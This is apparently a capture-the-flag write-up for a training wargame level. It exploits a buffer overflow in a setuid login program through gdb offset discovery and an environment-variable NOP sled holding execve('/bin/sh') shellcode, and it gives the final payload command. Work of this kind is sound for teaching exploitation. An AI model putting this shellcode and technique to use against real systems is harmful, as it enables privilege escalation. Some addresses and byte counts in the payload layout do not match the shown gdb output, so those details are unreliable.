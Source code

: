 # 1st Step
  
List the files will show us `level01` executable
```
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: bla
verifying username....

nope, incorrect username...

level01@OverRide:~$
```
The program waits for a username/password and exit if it's not good.  
After analyze it with gdb we can find three interesting functions : `main()`, `verify_user_name` and `verify_user_pass`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-OverRide/blob/main/level01/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-OverRide/blob/main/level01/source.c) for more details.  
A first read of ASM code allows us to see that function `verify_user_name` compares the user name to "dat_wil" and function `verify_user_pass` compares password to "admin".  
By looking closely to the code we can see that finding the password won't help us! Since there is no calls to `/bin/sh`, we can assume we'll have to use a shellcode this time.  
We'll have to write over `eip`, so first get the offset :
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Thanks to the pattern generator we found an offset of 80.  
As the program use `fgets()` function we should not be able to make a buffer overflow but `fgets()` take a max string of 100 chars wich is more than the offset of `eip`.  

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php)*  
In order to store our shellcode, we can use environment variables :
```
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
level01@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������1�Ph//shh/bin��PS��
                                                                                ̀
level01@OverRide:~$
```
Find its address with gdb and add some bytes to the address founded in order to jump into the nop sled :
```
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
[...]
  0x0804856d <+157>:	lea    eax,[esp+0x1c]    // buffer start
[...]
(gdb)  b *main+157
Breakpoint 1 at 0x804856d
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:

Breakpoint 1, 0x0804856d in main ()
(gdb) x $ebp-0x1008
0xbfffe680:     0x00000000
(gdb)
```
Our input will be as follow :
bytes 0-7: "dat_wil", to pass the `verify_user_name` function.
byte  8: '\n', so that the first `fgets` stops taking user input
bytes 9-89: padding (80 to overwrite EIP with the next 4 bytes) 
bytes 90-94: 0xffffd668 + 20 => 0xffffd67c (sometimes, gdb will give us a wrong address so that's why we added nop sled in the environment variable SHELLCODE)

(python -c 'print "dat_wil" + "\n" + "a" * 80 + "address shellcode reversed"'; cat) | ./level01
